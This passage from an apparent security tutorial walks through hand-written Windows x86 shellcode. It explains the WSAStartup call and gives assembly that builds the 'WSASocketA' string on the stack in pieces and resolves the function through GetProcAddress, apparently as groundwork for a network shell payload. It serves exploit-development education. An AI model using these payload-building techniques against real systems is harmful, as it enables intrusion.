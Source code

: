 <img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="https://xen0vas.github.io/assets/images/2021/08/wsa.png" alt="WSAData Length "/>

<p align="justify">
 Furthemore, at the third line we are making some space on the stack for the <code  style="background-color: lightgrey; color:black;"><b>WSAData</b></code> structure and then <code  style="background-color: lightgrey; color:black;"><b>esp</b></code> points to <code  style="background-color: lightgrey; color:black;"><b>WSAData</b></code> structure. A pointer to the <code  style="background-color: lightgrey; color:black;"><b>WSAData</b></code> structure is generally used to receive details of the <b>Windows Sockets</b> implementation. Then at the fifth line we will push the version of the <code  style="background-color: lightgrey; color:black;"><b>WSAData</b></code> structure. The fifth instruction worked because, if the version requested by the application is equal to or higher than the lowest version supported by the <code  style="background-color: lightgrey; color:black;"><b>Winsock DLL</b></code>, the call succeeds and the <code  style="background-color: lightgrey; color:black;"><b>Winsock DLL</b></code> returns detailed information in the <code  style="background-color: lightgrey; color:black;"><b>WSADATA</b></code> structure pointed to by the <code  style="background-color: lightgrey; color:black;"><b>lpWSAData</b></code> parameter. For this reason we have used the length of the <code  style="background-color: lightgrey; color:black;"><b>WSAData</b></code> stored at <code  style="background-color: lightgrey; color:black;"><b>EBX</b></code>, because the value is much bigger than the supported version and this allow us to use lesser assembly code which also means lesser opcodes. In general, the current version of the <b>Windows Sockets</b> specification is version 2.2. At the last line we execute the <code  style="background-color: lightgrey; color:black;"><b>WSAStartup</b></code> function. 
</p>

<b><span style="color:green;font-size:26px">Get WSASocketA using GetProcAddress</span></b>

<p align="justify">
At this point we are in position to search for the address of <code  style="background-color: lightgrey; color:black;"><b>WSASocketA</b></code> function. The following assembly code will be used in order to find the address of the <code  style="background-color: lightgrey; color:black;"><b>WSASocketA</b></code> function
</p>

```c
;;Find the address of WSASocketA
ADD  ESP,0x10                  ;Align the stack
XOR  EBX, EBX                  ;zero out the EBX register
ADD  BL, 0x4                   ;add 0x4 at the lower register BL
IMUL EBX, 0x64                 ;EBX = 0x190
MOV  EDX,[ESP+EBX]             ;EDX has the address of GetProcAddress
PUSH dword 0x61614174          ;"aaAt"
SUB  word [ESP + 0x2], 0x6161  ;"At" (remove "aa")
PUSH dword 0x656b636f          ;"ekco"
PUSH dword 0x53415357          ;"SASW"
PUSH ESP                       ;"WSASocketA" ,GetProcAddress 2nd argument 
MOV  EAX, EDI                  ;EAX now holds the ws2_32.dll address
PUSH EAX                       ;push the first argument of GetProcAddress
CALL EDX                       ;call GetProcAddress
PUSH EDI                       ;save the ws2_32.dll address to use it later
```

<p align="justify">
Now its time to call <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress(ws2_32.dll, "WSASocketA")</b></code>, so we have to push <b>"WSASocketA"</b> string on the stack. Moreover, once again, at the first line we are making space on the stack. Then, at the second line we are zeoroing out the <code  style="background-color: lightgrey; color:black;"><b>EBX</b></code> register. At lines 3-5 we are moving the contents pointed by <code  style="background-color: lightgrey; color:black;"><b>[ESP+0x190]</b></code> ( the address of <code  style="background-color: lightgrey; color:black;"><b>GetProcAddress</b></code> ) to the <code  style="background-color: lightgrey; color:black;"><b>EDX</b></code> register. We can see this in memory below
</p>
